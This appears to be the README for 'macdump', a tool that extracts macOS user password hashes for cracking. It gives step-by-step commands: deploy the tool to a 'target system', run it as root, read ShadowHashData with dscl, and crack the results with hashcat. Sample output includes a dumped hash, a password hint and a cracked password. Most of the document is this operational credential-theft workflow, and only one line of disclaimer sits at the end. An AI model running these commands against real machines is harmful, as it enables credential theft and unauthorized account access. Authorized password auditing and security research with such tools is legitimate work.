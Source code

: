 # macdump

Dump macOS 1.8+ system user hashes to a hashcat-compatible format.
Can work either directly on the target system to dump hashes of all users (root
required) or offline on shadow hash data extracted from the system.

## Installation

Use the package manager pip to install to a local machine:

```bash
pip install macdump
```

To get a standalone executable to be transferred to target systems, either download
one from the release pages or build it with [pyinstaller](https://pyinstaller.org/en/stable/),
as shown in the [Makefile](Makefile) (`make build-executable`).

If Python is installed (it should be), you can also just copy the standalone
version of the script. Find it in [macdump.py](macdump.py)

## Usage

### On target system

To run macdump directly on the target system, transfer either the standalone
binary or the script [macdump.py](macdump.py) and run it as root.
Obviously, this will only work on macOS.
Output will be roughly as seen below.

Running the script (`sudo python macdump.py`) or the binary (`sudo ./macdump`):

```
 $ sudo python macdump.py
[+] Dumping hashes of all system users
[+] Dumping hash of testuser
[+] Authentication hint:  This is our default password
testuser:$ml$45871$f601fc65d033857cfc926ec2332058f791c1844f4e4fbb763568e063eafd742b$6eaf4c347e36648d471fe07fcf17b099d5f82ad050438d39dbad18a824b86d23165e69a881d699b0f3442658fe3ab77e9720e37386e6d05ef4f945b443f61b51427582447514b810e3be3dce5d70ea8ec215b2babeed0d92275ad662a04467134140a807c28178bb377503a50d4be1ba9d5944af88df04824a7075d1f9f116d5
[+] Put hashes into file 'hashes.txt', then crack with: hashcat -m 7100 --username hashes.txt -a 0 wordlist.txt
```

### Offline

You can extract the shadow hash data on the target Mac, store it to a text file and use that as
input for macdump.
To get the data for user `username`, run:

```bash
sudo dscl . -read /Users/username dsAttrTypeNative:ShadowHashData > /tmp/shd.txt
```

Note: You may also just include all data by running `sudo dscl . -read /Users/username > /tmp/shd.txt`,
which will output a lot of text. macdump finds what it needs.

Then get `/tmp/shd.txt` over to your machine and run:

```bash
 $ macdump --from-file /tmp/shd.txt
[+] Loading shadow hash data from /tmp/shd.txt
UNKNOWN_USER:$ml$45871$f601fc65d033857cfc926ec2332058f791c1844f4e4fbb763568e063eafd742b$6eaf4c347e36648d471fe07fcf17b099d5f82ad050438d39dbad18a824b86d23165e69a881d699b0f3442658fe3ab77e9720e37386e6d05ef4f945b443f61b51427582447514b810e3be3dce5d70ea8ec215b2babeed0d92275ad662a04467134140a807c28178bb377503a50d4be1ba9d5944af88df04824a7075d1f9f116d5
[+] Put hashes into file 'hashes.txt', then crack with: hashcat -m 7100 --username hashes.txt -a 0 wordlist.txt
```

### Cracking

Hashes are printed in hashcat format including usernames.
Store them inside a file `hashes.txt`, then run a command like the following:

```
 $ hashcat -m 7100 --username hashes.txt -a 0 wordlist.txt

hashcat (v6.2.5) starting

...

$ml$45871$f601fc65d033857cfc926ec2332058f791c1844f4e4fbb763568e063eafd742b$6eaf4c347e36648d471fe07fcf17b099d5f82ad050438d39dbad18a824b86d23165e69a881d699b0f3442658fe3ab77e9720e37
386e6d05ef4f945b443f61b51427582447514b810e3be3dce5d70ea8ec215b2babeed0d92275ad662a04467134140a807c28178bb377503a50d4be1ba9d5944af88df04824a7075d1f9f116d5:pass123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7100 (macOS v10.8+ (PBKDF2-SHA512))
...
```

Try this with the hash seen in the readme and a wordlist containing password
`pass123` to verify that your setup works.

## Disclaimer

Macdump is for research and educational purposes only. 
Do not run this without consent on anybody's machine.

## License
[MIT](https://choosealicense.com/licenses/mit/)

